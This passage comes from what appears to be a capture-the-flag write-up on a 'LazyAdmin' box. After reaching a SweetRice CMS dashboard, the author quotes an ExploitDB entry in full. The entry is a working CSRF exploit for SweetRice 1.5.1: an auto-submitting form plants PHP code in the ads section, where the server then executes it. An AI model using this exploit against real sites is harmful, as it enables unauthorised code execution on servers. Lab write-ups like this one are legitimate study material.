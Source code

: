 And now, we can see the dashboard.

![dashboard](./img/lazyadmin/10.png)

But just being able to see the dashboard isn't really enough for us to do anything. I was a little stuck, so I looked at the other exploits.

## Cross-Site Request Forgery / PHP Code Execution

From ExploitDB:

```
<!--
# Exploit Title: SweetRice 1.5.1 Arbitrary Code Execution
# Date: 30-11-2016
# Exploit Author: Ashiyane Digital Security Team
# Vendor Homepage: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1


# Description :

# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
# A CSRF Vulnerability In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo();
Code You Can
Customize Exploit For Your Self .

# Exploit :
-->

<html>
<body onload="document.exploit.submit();">
<form action="http://localhost/sweetrice/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
&lt;/textarea&gt;
</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://localhost/sweetrice/inc/ads/hacked.php
  -->
```
